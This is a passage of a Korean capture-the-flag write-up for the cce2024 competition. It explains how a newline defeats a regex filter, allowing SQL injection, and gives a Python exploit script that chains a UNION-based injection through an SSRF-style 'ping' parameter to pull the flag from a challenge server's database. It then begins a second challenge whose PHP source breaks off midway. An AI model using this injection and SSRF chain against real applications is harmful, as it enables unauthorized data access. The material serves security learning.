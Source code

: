 ` union select 1\nasdf`을 입력하면 `select * from events where name = \' union select 1\nasdf\'`가 `select XXX\nasdf\'`로 바뀌게 된다. 개행 뒤에 부분이 필터링 되지 않는 이유는 정규표현식에서 `.*`는 개행을 제외한 모든 문자를 포함하기 때문에 개행을 사용하여 원하는 문자열을 쓸 수 있게 된다.   

다음으로, `select XXX` 쿼리가 실행되면 필드명이 XXX가 되기 때문에 `$row["body"]`에서 비어있는 값이 나오게 된다. 그리하여, `select XXX.* from (asdf) XXX` 이와 같이 쿼리를 구성하여 테이블을 XXX로 별칭을 지어주면 해결할 수 있다. asdf 부분에는 1,sha1(A),sha1(A),flag 형태가 되도록 union을 사용해 추가해주었고, 추가한 데이터를 결과로 반환하도록 쿼리를 작성해주면 된다.                 
        
## Exploit Code     
```python
import requests 

url = "http://52.231.137.27:37221"
# url = "http://localhost:37221/"

x = b" union select 1\n.* from (select * from events "
x += b"union/**/select * from (select 1)a "
x += b"join (select 0x36646364346365323364383865326565393536386261353436633030376336336439313331633162)b "
x += b"join (select 0x36646364346365323364383865326565393536386261353436633030376336336439313331633162)c "
x += b"join (select body from events offset 1 rows fetch next 1 rows only)d offset 3 rows) XXX;-- -"

sql = ''
for i in range(len(x)):
    sql += '%%%02x' % (x[i])

r = requests.get(
    f"{url}", 
    params={
        "action": "ping",
        "arg": f"http://localhost:80\@.cce.cstec.kr|?action=db_show_event_detail&db_arg_event_name={sql}&db_arg_writer=A&db_arg_password=A",
    }
)
print(r.text)
```
       
## Flag    
cce2024{0fc77f746f6d6382d3efea1dfe6c0ae33b9ef655c6fa4546}    
      
<a id="Advanced-Login-System"></a>         

# Advanced Login System          
     
문제를 출제하신 @as3617 분께서 올려주신 Write-Up을 참고하여 작성하였습니다. 

## index.php
```php
<?php

    session_start();
    require_once "lib.php";
    require_once "config/dbconn.php";

    if ($_SESSION["level"] > 900 && $_SESSION["username"] === "admin") {
        if ($_GET['mode'] === "debug_mode") {
            debug($_GET["debug"]);
        }
    } else if ($_SESSION["level"] == 1)  {
        session_write("level",2);
```